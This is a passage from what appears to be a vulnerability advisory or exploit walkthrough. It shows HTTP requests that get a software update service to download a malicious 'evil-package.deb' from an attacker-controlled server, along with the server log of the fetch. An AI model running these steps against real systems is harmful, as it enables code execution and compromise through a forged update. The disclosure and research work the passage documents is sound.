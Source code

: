 ```
HTTP/1.1 200 OK
Date: Tue, 26 May 2020 19:22:30 GMT
Server: Apache/2.4.20 (Unix)
...
Content-Length: 168
Connection: close
Content-Type: application/json

{"update_info": [{"version": "99.99.99.9999", "link": "http://10.0.0.11/evil-package.deb", "update_type": "Recommended", "total_file_size": 818}], "success": true}
```

The second request is a `POST` request to `/service.web` with the form data `auth=b5a5323fc67148a084f6b0bb5f4de83a&action=downloadupdate&version=99.99.99.9999` that instructs the application to download the version `99.99.99.9999` update identified in the previous request.

```
POST /service.web HTTP/1.1
Host: 10.0.0.22
...
Content-Length: 81
Origin: http://10.0.0.22
Connection: close
Referer: http://10.0.0.22/service.web?response=html&auth=b5a5323fc67148a084f6b0bb5f4de83a

auth=b5a5323fc67148a084f6b0bb5f4de83a&action=downloadupdate&version=99.99.99.9999
```

The `POST` request results in the target system requesting the `http://10.0.0.11/evil-package.deb` "update" from the attacking system, as shown below.

```
┌─[root@parrot]─[~/demo]
└──╼ #python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.0.0.22 - - [03/Jun/2020 07:30:20] "GET /evFileInfo.txt HTTP/1.1" 200 -
10.0.0.22 - - [03/Jun/2020 07:30:22] "GET /evil-package.deb HTTP/1.1" 200 -
```

The response confirms that the "update" package file was found successfully at `http://10.0.0.11/evil-package.deb`.

```
HTTP/1.1 200 OK
Date: Tue, 26 May 2020 19:22:34 GMT
Server: Apache/2.4.20 (Unix)
...
Content-Length: 17
Connection: close
Content-Type: application/json

{"success": true}
```

The third request is another `GET` request with a specified action of `downloadupdatestatus` that references the update to version `99.99.99.9999`.
